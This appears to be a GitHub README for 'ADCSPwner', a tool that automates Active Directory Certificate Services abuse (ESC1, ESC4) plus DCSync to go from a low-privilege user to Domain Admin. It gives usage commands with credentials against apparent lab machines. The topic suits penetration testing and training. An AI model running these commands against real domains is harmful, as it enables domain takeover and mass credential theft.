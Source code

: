 # ADCSPwner
An Automated tool leveraging Certipy &amp; secretsdump.py to gain Domain Admin from Low Priv User

## ADCS + DCSync Automation

#### Prerequisites 

- Certipy
- secretsdump.py (Part of impacket)
- pip3 install rich


### ESC1 - ADCS

```
python3 esc1.py -u ryan.cooper@sequel.htb -p 'NuclearMosquito3' -t sequel.htb
```

![image](https://github.com/user-attachments/assets/d6687a62-ab1d-4457-a67a-fa927d6b8fa9)



### ESC4 - ADCS

```
python3 esc4.py -u clifford.davey@sendai.vl -p 'RFmoB2WplgE_3p' -t sendai.vl -d 10.10.104.31
```

![image](https://github.com/user-attachments/assets/6cd20428-6349-44e1-a568-281a21fbb7c2)
